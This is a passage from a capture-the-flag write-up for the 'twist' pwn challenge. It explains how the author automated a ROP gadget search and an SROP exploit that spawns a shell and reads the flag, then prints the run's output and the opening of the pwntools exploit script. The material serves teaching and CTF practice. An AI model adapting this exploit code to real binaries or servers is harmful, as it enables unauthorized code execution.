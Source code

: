 Finally, we can go ahead and automate our solution, we will loop the 60 bytes of address space betwen the local binary addresses of ``pop_rax()`` to the static ``debug_mode()`` address and try to resolve our ``pop_rax; ret`` and ``syscall; ret`` gadgets; then throw our original SROP exploit. Note, we made the assumption ``/bin/sh\0`` did not move. If that did not work, next step would have been to go back and make a new ``/bin/sh\0`` with all of our newly discovered gadgets, by reading ``/bin/sh\0`` into writeable memory with a ``syscall_READ`` (using all our discovered gadgets.) Our script produces the following output and flag.

```
$ python3 pwn-twist.py BIN=./twist REMOTE
[*] Starting pop rax gadget search between 0x401349 to 0x401385
... snipped..
[*] [pop rax; ret] discovered at 0x40136e
[*] [syscall; ret] discovered at 0x401352
[*] [/bin/sh] discovered at 0x40289e
--------------------------------------------------------------------------------------------
    (nil) | 0x401490 |    (nil) |    (nil) | 0x7f018c98d670 | 0x7ffce1930910
--------------------------------------------------------------------------------------------
     You can dance in a hurricane but only if you are standing in the eye >>> $ cat flag.txt
uscg{a_dr0p_1n_th3_0c3an_has_0_fe3r_0f_hurr1can3s}
```

Our full working exploit follows:

```python
dfrom pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)

gs = '''
continue
'''


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io', 13658, level="error")
    else:
        return process(e.path, level="error")


''' debug mode prints out
  rax | rbx | rcx | rdx | rdi | rsi 
'''


def gadget_finder(s):
    regs = s.split(b'|')
    if b'0x1337' in regs[0]:
        return 'pop rax; ret'
    elif b'0x1337' in regs[1]:
        return 'pop rbx; ret'
    elif b'0x1337' in regs[2]:
        return 'pop rcx; ret'
    elif b'0x1337' in regs[3]:
        return 'pop rdx; ret'
    elif b'0x1337' in regs[4]:
        return 'pop rdi; ret'
    elif b'0x1337' in regs[5]:
        return 'pop rsi; ret'
```